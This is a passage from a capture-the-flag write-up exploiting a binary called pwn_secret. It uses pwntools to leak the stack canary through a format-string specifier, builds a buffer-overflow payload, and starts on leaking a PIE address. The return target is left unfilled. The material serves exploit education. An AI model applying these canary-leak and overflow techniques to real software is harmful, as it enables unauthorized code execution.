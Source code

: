 ## Exploitation

Let's load up our tools with a base skeleton. I'm using pwntools and gdb
peda.

```python
#!/usr/bin/env python2

from pwn import *
context(arch='amd64')

# p = remote('206.81.24.129', 1339)
p = process('./pwn_secret')
gdb.attach(p, "source /usr/share/peda/peda.py")

p.interactive()
```

Looking at our binary, we're going to want to try and leak our canary as soon
as possible so that we can overflow the saved instruction pointer properly.

We can see from the disassembly that both `main` and `secret` use the same
canary, i.e., `fs[0x28]`. So if we can leak the canary for one, we can get
the other.

With a bit of playing around in gdb, dumping the stack using `printf` and
inspecting the canary value, we can find the exact location of the canary on
the stack.

```python
p.recvline_contains('name?')
p.sendline('%15$p')
line = p.recvline()
leaks = line.split()[2:]
canary = int(leaks[0], 16)
```

This is the canary for `main`, which will be the same value as the one for
`secret`. We can now use this to properly overflow the stack and avoid the
`__stack_chk_fail`.

```python
payload = 'a' * 0x88    # padding to fill the buffer
payload += p64(canary)  # canary
payload += p64(1337)    # rbp (exact value doesn't matter)
payload += ???          # rip
p.sendline(payload)
```

The only question is... where do we jump to? Because we're running with PIE,
we don't know the location of anything in the binary at all. So, we need
another leak.

If we modify our format string leak from above, we can leak more than one
value from the stack. After a while, I noticed that while addresses from libc
tended to start with `0x7f`, addresses from our program were starting with
`0x55`. So, with a bit of playing around, I found a value on the stack that
pointed somewhere (doesn't really matter where) in our program.
